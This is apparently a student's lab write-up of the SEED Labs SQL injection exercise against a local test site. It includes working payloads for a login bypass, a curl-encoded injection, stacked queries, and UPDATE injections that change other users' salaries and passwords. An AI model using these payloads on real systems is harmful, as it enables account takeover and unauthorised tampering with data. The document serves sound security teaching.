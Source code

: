 # Trabalho realizado na semana #8

<br>

# SEED Labs - SQL Injection Attack Lab

## Preparation

To prepare our systems for this lab, we followed the Environment Setup section of the guide:

1. Add the entry `10.9.0.5        www.seed-server.com` to the `/etc/hosts` file of your VM.

2. Launch the web server, using `dcup`.
   - This command must be executed in the `Labsetup` directory.

<br>

## Task 1 : Get Familiar with SQL Statements

The goal of this task is to understand the structure of the database that is being used by the web server in the next tasks.

1. Get a shell on the MySQL container.

   1. Use `dockps | grep mysql` to get the id of the container (first column).
   2. Run `docksh <id>` with the id obtained in the previous step (only the first few characters may be used).

2. Get a shell inside the database, by executing `mysql -u root -pdees`.
   
<figure>
   <img src="images/logbook8/task1/1.png" alt="Getting a shell on the MySQL container" width="50%" />
   <figcaption><strong>Fig 1. </strong>Getting a shell on the MySQL container</figcaption>
</figure>

3. In the database shell:
   
   1. Run `use sqllab_users;` to change the current database to the database named `sqllab_users`.
   2. Run `show tables;` to see a list of the tables in the current database.
   3. Run `select * from credential where name = 'Alice';` to print all of Alice's profile information.

<figure>
   <img src="images/logbook8/task1/2.png" alt="Print all of Alice's profile information" width="50%" />
   <figcaption><strong>Fig 2. </strong>Print all of Alice's profile information</figcaption>
</figure>

<br>

## Task 2 : SQL Injection Attack on SELECT Statement

The goal of this task is to exploit a SQL Injection vulnerability and use that to log in to an arbitrary user account.

First, we'll inspect the code on the server. By going to `Labsetup/image-www/Code/unsafe_home.php`, we can see the code that is used for the home page, which is vulnerable to SQL Injection.

We found the vulnerable SELECT statement and it's presented below:

<figure>
   <img src="images/logbook8/task2/1.png" alt="The vulnerable SELECT statement" width="50%" />
   <figcaption><strong>Fig 3. </strong>The vulnerable SELECT statement</figcaption>
</figure>

After finding the vulnerable statement, we did the following steps:
   
1. Looking at the PHP code shown previously, we can see that both the username and the password are injectable. As such, we will use the username since it's the first one to appear in the SQL query, which makes the attack easier to perform.

3. Determine the injection payload:

   - We want to log in with the account of the user named `admin`. We can do that by executing the query `SELECT <fields> FROM credential WHERE name = 'admin';`. In the next steps, we will show how to transform the previously shown query into this one.
  
   1. We do not need the `password` field. To remove it, we can simply comment it out (put `; -- ` before it; the space is needed). This will be placed in the field that comes before `password`, which is `name`. As such, no payload is needed for the `password` field.
   
   2. On the `username` field, we want to select the `admin` account. Furthermore, we also want to introduce the changes described in 1., which means that we must close the string as well. Since the string is opened using `'`, we will need to close it using the same character (`'`). As such, the payload for the `name` field will be `admin'; -- `.
   
   3. The resulting SELECT statement will be as follows:
        ```sql
        SELECT <fields> FROM credential WHERE name = 'admin'; -- ' and Password = '';
        ```

### 1. SQL Injection Attack from webpage

1. Connect to the website on `www.seed-server.com`, where we will be presented with a login page.

2. Fill in the login form with the following inputs:

    - Username: `admin'; -- `
    - Password: *anything you want*

<figure>
   <img src="images/logbook8/task2/web/1.png" alt="The payload for the SQL Injection attack" width="50%" />
   <figcaption><strong>Fig 4. </strong>The payload for the SQL Injection attack</figcaption>
</figure>
   
3. Submit the form.
   
<figure>
   <img src="images/logbook8/task2/web/2.png" alt="Logged in as admin, with SQL Injection" width="50%" />
   <figcaption><strong>Fig 5. </strong>Logged in as admin, with SQL Injection</figcaption>
</figure>

### 2. SQL Injection Attack from command line

`curl` is a command-line tool that allows the user to make HTTP requests to any URL. We can, therefore, send our SQL injection payload by using `curl`.

1. Open a terminal.
2. Run `curl "www.seed-server.com/unsafe_home.php?username=admin%27;%20--%20"`.
   
   - Some special characters, such as `'` and spaces need to be encoded when used in a URL. As such, we must use `%20` instead of spaces and `%27` instead of single quotes, which are the corresponding URL-encoded version of those characters.
   
<figure>
   <img src="images/logbook8/task2/curl/1.png" alt="First part of the output of curl" width="50%" />
   <img src="images/logbook8/task2/curl/2.png" alt="Second part of the output of curl" width="50%" />
   <figcaption><strong>Figs 6 and 7. </strong>HTML code of admin page, with SQL Injection and curl</figcaption>
</figure>

<br>

### 3. Append a new SQL statement

To execute multiple statements, we can simply add the new statement after the `;` and before the ` -- ` in the username.

As such, if we want to change Ted's salary to 1234, we will need to execute the statement `UPDATE credential SET salary = 1234 WHERE name = 'Ted';`.

This means that the payload will be as follows:

- Username: `admin'; UPDATE credential SET salary = 1234 WHERE name = 'Ted'; -- `
- Password: *anything you want*

If we submit this payload on the webpage, however, we will get an error.

<figure>
   <img src="images/logbook8/task2/multistatement/1.png" alt="Error after submitting the previous payload" width="50%" />
   <figcaption><strong>Fig 8. </strong>Error after submitting the previous payload</figcaption>
</figure>

This error happens because the server is configured to only execute a single statement per query. To change this, we will need to edit the `unsafe_home.php` file, as shown below.

<figure>
   <img src="images/logbook8/task2/multistatement/2.png" alt="Code after changes have been applied" width="50%" />
   <figcaption><strong>Fig 9. </strong>Code after changes have been applied (lines 75 - 78)</figcaption>
</figure>

With these changes, the server stops using
```php
$conn->query($sql);
```
and instead uses
```php
$conn->multi_query($sql);
```

`multi_query` allows the execution of multiple semicolon-separated statements in the same query, whereas `query` doesn't.

With these changes applied, we need to rebuild the server using `dcup --build`.

After the server is back online, if we submit the payload again, the same user details are shown. This happens because the SELECT statement comes before the UPDATE statement, which means that the changes won't be reflected on the SELECT statement.

To fix this, we can simply reload the page, which will in turn execute the query again and return the updated user details, as shown below.

<figure>
   <img src="images/logbook8/task2/multistatement/3.png" alt="User details after resubmitting the SQL Injection payload" width="50%" />
   <figcaption><strong>Fig 10. </strong>User details after resubmitting the SQL Injection payload</figcaption>
</figure>

As we can see, Ted's salary has been changed to 1234.

<br>

## Task 3 : SQL Injection Attack on UPDATE Statement

The goal of this task is to explore a SQL Injection vulnerability in an UPDATE statement, which will let us modify the data present in the database.

To avoid having previous tasks interfere with this one, we reset the web server by executing the following commands in the `Labsetup` directory:

1. Run `dcdown` to shut down the containers.

2. Run `git restore .` to remove any modifications we have done to the Lab code.

   - This is important because we modified the server's code in the previous task.

3. Run `sudo rm -rf mysql_data`.

   - This will delete all data from the database container. This is important since we have modified data in the previous task and, by executing this command, we will be resetting the database to its original state.
   
4. Run `dcup --build` to start the containers again.

   - Because of the `--build` flag, this command will also check if any containers need to be rebuilt, in particular, the `www` container.

<figure>
   <img src="images/logbook8/task3/1.png" alt="Resetting the task containers" width="50%" />
   <img src="images/logbook8/task3/2.png" alt="Resetting the task containers" width="50%" />
   <figcaption><strong>Figs 11 and 12. </strong>Resetting the task containers</figcaption>
</figure>


After the containers are reset, we can take a look at the task.
In the lab, we are given a piece of vulnerable code, along with a SQL statement:

```php
$hashed_pwd = sha1($input_pwd);

$sql = "UPDATE credential SET
   nickname='$input_nickname',
   email='$input_email',
   address='$input_address',
   Password='$hashed_pwd',
   PhoneNumber='$input_phonenumber'
   WHERE ID=$id;";
   
$conn->query($sql);
```

As we have seen in previous tasks, this code is vulnerable to SQL Injection because it concatenates strings that have not been sanitized with a SQL query that is passed as-is to the database.

### 1. Modify your own salary

1. Log into Alice's account

   - We want to log in as Alice and change her salary through the edit profile form. To log in, we use the username `Alice` and password `seedalice`. Once inside the account, we navigate to the `Edit Profile` page by clicking on the button on the navbar at the top of the page.

<figure>
   <img src="images/logbook8/task3/a/1.png" alt="Logging into Alice's account" width="50%" />
   <figcaption><strong>Fig 13. </strong>Logging into Alice's account</figcaption>
</figure>

<figure>
   <img src="images/logbook8/task3/a/2.png" alt="Alice's homepage where we can see her salary" width="50%" />
   <figcaption><strong>Fig 14. </strong>Alice's homepage where we can see her salary</figcaption>
</figure>

2. Determine the payload injection:

   - The column we want to change is `salary`, therefore we will need something like `salary = 123456` in our payload. 
   
   - We will use the `PhoneNumber` field to inject our payload. Any field could be used, as long as it is included as-is in the resulting SQL query. 
   
   - One possible query would be as follows:
   
      ```sql
      UPDATE credential SET
         nickname='',
         ...
         PhoneNumber='', salary='123456'
         WHERE ID=10000;
      ```

   - In this case, it isn't a problem that `salary` is a string as MySQL will automatically convert it to the appropriate type.
      
   - Therefore one possible payload is `', salary='123456`.

   
3. Submit the "Edit Profile" form with the payload on the phone number field.

<figure>
   <img src="images/logbook8/task3/a/3.png" alt="Our payload" width="50%" />
   <figcaption><strong>Fig 15. </strong>Our payload</figcaption>
</figure>

As we can see, Alice's salary has been changed to 123456.

<figure>
   <img src="images/logbook8/task3/a/4.png" alt="Alice's homepage with her new salary" width="50%" />
   <figcaption><strong>Fig 16. </strong>Alice's homepage with her new salary</figcaption>
</figure>

### 2. Modify other people’s salary

1. Log into any account. We will log in to Alice's account.

2. Determine the injection payload:

      - This time we want to change someone else's salary, therefore, we will need to change the `WHERE ID=...` part in the resulting query, as this is currently being filled with our ID and, as such, will update our own information. This will need to be overwritten with a condition that only applies to Boby.
      
      - The new condition could be, for instance, `WHERE Name='Bobby'`. However, because we don't want to trigger a syntax error (caused by the original `WHERE ID=...` clause still being present), we will need to comment out everything that comes after that, using `; -- `.

      - Our final query would look something like

         ```sql
         UPDATE credential SET
            nickname='',
            ...
            PhoneNumber='', salary='1' WHERE Name='Boby'; -- ' WHERE ID=10000;
         ```

      - In conclusion, our final payload will be `', salary='1' WHERE Name='Boby'; -- `.


3. Submit the "Edit Profile" form with the payload on the phone number field.

<figure>
   <img src="images/logbook8/task3/b/1.png" alt="Our payload" width="50%" />
   <figcaption><strong>Fig 17. </strong>Our payload</figcaption>
</figure>

4. Log out of the website.

5. Log in with Boby's credentials.

   - Username: `Boby`
   - Password: `seedboby`

<figure>
   <img src="images/logbook8/task3/b/2.png" alt="Logging into Bobby's account" width="50%" />
   <figcaption><strong>Fig 18. </strong>Logging into Bobby's account</figcaption>
</figure>

As we can see, Bobby's salary has been changed to 1.

<figure>
   <img src="images/logbook8/task3/b/3.png" alt="Bobby's new salary" width="50%" />
   <figcaption><strong>Fig 19. </strong>Bobby's new salary</figcaption>
</figure>

### 3. Modify other people’s password

1. Log into an account. We will log in to Alice's account.

2. Determine the payload:

      - This task is generally the same as the previous one, the only difference is that the database stores a hash instead of a password, therefore we must hash our new password before inserting it.

      - There are two ways of accomplishing that goal:

         1. Since the new password comes before the phone number in the query, we can simply place the new password in plain text in the password field of the form (it will be hashed by the server) and the rest of the injected SQL in the phone number field of the form. This is useful if we don't what hashing algorithm is being used by the server, but we need to know (or, at least, guess) how the query is organized.

         2. We can also use the same payload as in task 3.2 and replace `salary='1'` with `Password='.<sha1 of password>'`. The downside here is that we need to know the hashing algorithm. Since we know that, we will use this approach.

      - We want to change Boby's password to `you_wont_access_your_account_again_bobby`. Let's hash the password with SHA1: `2409cc93fb815f9da0947627730f3d006aefb4f2`. 

      - Our final query would look something like

         ```sql
         UPDATE credential SET
            nickname='',
            ...,
            Password='',
            PhoneNumber='', Password='2409cc93fb815f9da0947627730f3d006aefb4f2' WHERE Name='Boby'; -- ' WHERE ID=10000;
         ```
      
      - Therefore, our payload will be `', Password='2409cc93fb815f9da0947627730f3d006aefb4f2' WHERE Name='Boby'; -- `.

3. Submit the "Edit Profile" form with the payload on the phone number field.

<figure>
   <img src="images/logbook8/task3/c/1.png" alt="Our payload" width="50%" />
   <figcaption><strong>Fig 20. </strong>Our payload</figcaption>
</figure>

4. Log out of the website.

5. Log in with Boby's new credentials.

   - Username: `Boby`
   - Password: `you_wont_access_your_account_again_bobby`

<figure>
   <img src="images/logbook8/task3/c/2.png" alt="Logging into Bobby's account with the new credentials" width="50%" />
   <figcaption><strong>Fig 21. </strong>Logging into Bobby's account with the new credentials</figcaption>
</figure>

As we can see, Bobby's password has been changed.

<figure>
   <img src="images/logbook8/task3/c/3.png" alt="Successful login into Bobby's account" width="50%" />
   <figcaption><strong>Fig 22. </strong>Successful login into Bobby's account</figcaption>
</figure>

<br>
<br>
<br>

# CTF

## CTF - Challenge 1

<br>

## CTF - Challenge 2


